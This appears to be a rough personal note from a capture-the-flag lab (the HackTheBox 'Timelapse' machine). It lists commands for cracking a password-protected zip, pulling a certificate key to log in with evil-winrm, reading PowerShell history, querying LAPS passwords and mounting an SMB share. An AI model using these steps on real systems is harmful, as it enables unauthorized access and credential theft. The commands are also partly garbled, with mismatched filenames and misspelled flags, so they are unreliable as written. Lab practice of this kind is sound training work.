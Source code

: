   

```Bash
unzip  winrmbackup.zip
zip2john winrmbackup.zip > winrmbu.zip.bash
john winrm.zip.bash --worlist 

fcrackzip -D -u winr.zip 
// pfx file  personal inf exchange file

pfx2john
```

```Bash
after get pfx file and key from winrm_backup.zip , then use evil-winrm 
evil-winrm -i timelapse.htb -k legacyy_dev_auth.pfx.decrypt.key -c xx.crt -S
//rem -S enable ssl
```

```PowerShell
type user.txt
whoami /priv
net user username

When you use the net user command, you can perform various operations related to 
user accounts, including creating, modifying, and displaying user account 
information. To display information about a specific user account,
```

```PowerShell
type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

to get history of powershell 
user is svc_deploy is the LAPS_READERS
Get-ADComputer username
Get-ADComputer dc01 -property * // * means get everything
```

mount [[SMB]]

for mac

```PowerShell
mkdir share && mount_smbfs //guest:@10.10.11.152/Shares ./share
```

### 1️⃣ `mkdir shares`

- `mkdir` = “make directory”
- `shares` = the folder you want to create locally
- **Purpose:** Creates a local mount point where the SMB share will be attached.
- Example:
    
    ```Bash
    mkdir shares
    
    ```
    